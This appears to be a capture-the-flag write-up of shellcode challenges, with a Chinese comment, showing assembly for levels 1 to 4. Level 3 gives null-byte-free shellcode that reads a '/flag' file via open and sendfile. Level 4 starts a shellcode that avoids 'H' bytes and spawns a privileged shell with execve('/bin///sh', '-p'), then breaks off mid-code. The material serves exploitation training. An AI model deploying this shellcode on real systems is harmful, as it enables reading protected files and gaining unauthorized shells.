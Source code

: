```assembly
mov rax, 60				# syscall number of exit
syscall				# trigger exit().
```



#### Level 3

This challenge requires that your shellcode have no NULL bytes!

`gcc -static -nostdlib file.s -o file.elf ; objcopy --dump-section .text=file.bin file.elf ; hd file.bin`

```assembly
.global _start
.intel_syntax noprefix
_start:
xor rax, rax
mov al, 0x67
shl rax, 0x20
xor rbx, rbx
mov ebx, 0x616c662f
add rbx, rax
push rbx
xor rax, rax
mov al, 2
mov rdi, rsp
xor rsi, rsi
syscall

xor rdi, rdi
inc rdi
mov rsi, rax
xor rdx, rdx
xor rax, rax
mov al, 0xff
mov r10, rax
xor rax, rax
mov al, 0x28
syscall

xor rax, rax
mov al, 0x3c
syscall
```

#### Level 4

This challenge requires that your shellcode have no H bytes!

不让用H就是说不能用64位的mov及相关的xor, or, shl指令，但是可以用32位指令，而且push和pop到rax不影响。

```assembly
/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    //mov rax, 0x732f2f2f6e69622f
    //push rax
    push 0x6e69622f
    mov dword ptr [rsp+4],0x732f2f2f
    //mov rdi, rsp
    push rsp
    pop rdi
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push b'sh\x00-p\x00' */
    //mov rax, 0x702d006873
    //push rax
```